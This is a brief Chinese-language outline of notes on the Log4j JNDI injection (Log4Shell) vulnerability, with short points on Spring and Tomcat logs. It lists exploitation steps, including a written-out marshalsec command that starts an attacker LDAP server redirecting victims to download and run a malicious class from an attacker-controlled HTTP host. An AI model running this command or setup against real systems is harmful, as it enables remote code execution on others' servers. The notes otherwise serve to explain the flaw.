 - Log4j

  - JndiLookup类
    主要功能就是提供另外一种方式以添加某些特殊的值到日志中

  - 攻击者定义一个接口，在接口中定义数据库操作等。

  -  攻击者携带lookup支持表达式进行请求服务器。

  -  服务器通过log4j打印出请求信息。

  -  log4j打印完成后会执行JNDI操作。

  -  这样就解释了漏洞的产生，极其高危！

  - 这个组件是记录日志的

  - 通过jndi注入来利用

  - 用jndi调用资源，当调用LDAP中不存在的资源的时候，会下载当前类并执行

  - 利用方式

    - 1.攻击者构造一个HTTP服务器，让受害者来下载这个恶意的类

    - 2.攻击者构建LDAP服务器开启监听，将LDAP服务绑定到恶意的类
      java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://10.10.10.188:8000/#Exploit 7365

    - 3.通过jndi注入成功让受害者执行恶意命令

  - jdk8

- spring

  - tomcat日志

    - 启动日志catalina

    - HTTP接口访问日志 access.log在server.xml里面

    - 管理页面日志manager

  - 动态参数绑定的方式赋值

  - jdk9+